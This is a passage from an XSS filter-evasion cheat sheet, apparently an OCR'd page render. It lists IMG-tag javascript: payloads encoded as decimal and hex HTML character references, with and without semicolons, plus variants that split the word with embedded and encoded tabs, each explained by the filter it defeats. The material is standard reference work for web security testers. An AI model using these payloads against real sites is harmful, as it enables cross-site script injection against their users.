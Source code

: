 all of the XSS examples that use a javascript: directive inside of an
\<IMG tag will not work in Firefox or Netscape 8.1+ in the Gecko
rendering engine mode).

`<IMG SRC=&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;`  
`&#39;&#88;&#83;&#83;&#39;&#41;>`

## Decimal HTML character references without trailing semicolons

This is often effective in XSS that attempts to look for "&\#XX;", since
most people don't know about padding - up to 7 numeric characters total.
This is also useful against people who decode against strings like
$tmp\_string =\~ s/.\*\\&\#(\\d+);.\*/$1/; which incorrectly assumes a
semicolon is required to terminate a html encoded string (I've seen this
in the wild):

`<IMG SRC=&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&`  
`#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041>`

## Hexadecimal HTML character references without trailing semicolons

This is also a viable XSS attack against the above string $tmp\_string
=\~ s/.\*\\&\#(\\d+);.\*/$1/; which assumes that there is a numeric
character following the pound symbol - which is not true with hex HTML
characters).

<IMG SRC=&#x6A&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&#x3A&#x61&#x6C&#x65&#x72&#x74&#x28&#x27&#x58&#x53&#x53&#x27&#x29>

## Embedded tab

Used to break up the cross site scripting attack:

<IMG SRC="jav&#x09;ascript:alert('XSS');">

## Embedded Encoded tab

Use this one to break up XSS :

<IMG SRC="jav&amp;#x09;ascript:alert('XSS');">

## Embedded newline to break up XSS

Some websites claim that any of the chars 09-13 (decimal) will work for
this attack. That is incorrect. Only 09 (horizontal tab), 10 (newline)
and 13 (carriage return) work. See the ascii chart for more details. The
following four XSS examples illustrate this vector:
